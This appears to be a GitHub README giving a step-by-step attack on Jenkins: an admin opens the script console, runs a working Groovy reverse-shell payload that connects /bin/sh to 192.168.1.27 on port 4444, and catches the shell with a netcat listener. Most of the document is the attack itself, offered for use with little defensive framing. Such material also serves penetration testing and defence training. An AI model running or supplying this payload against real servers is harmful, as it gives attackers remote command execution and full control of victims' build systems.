




# Jenkins - Execute a script in the console

## Requirements

 - A valid **username and password** of a user with **admin rights** on the Jenkins.

## Exploitation

### Step 1: Access the Jenkins

First of all, you need to access the Jenkins with a user having **admin rights** on the Jenkins:



### Step 2: Access the script console

Then go in the Jenkins script console page:



### Step 3: Start a reverse shell

You can execute Groovy script in the Jenkins script console, so you can start a reverse shell! You can use the following payload (from here: [https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy](https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy)): 

```java
String host="192.168.1.27";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



### Step 3: Enjoy your shell

Now, prepare your listener with netcat (`nc -lvp <port>`) and enjoy your shell:



### Demonstration

Here is a video walkthrough of this technique:

https://user-images.githubusercontent.com/79218792/168493712-3eb87dbc-68ae-4e9b-ba57-160f9fba37f1.mp4

## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
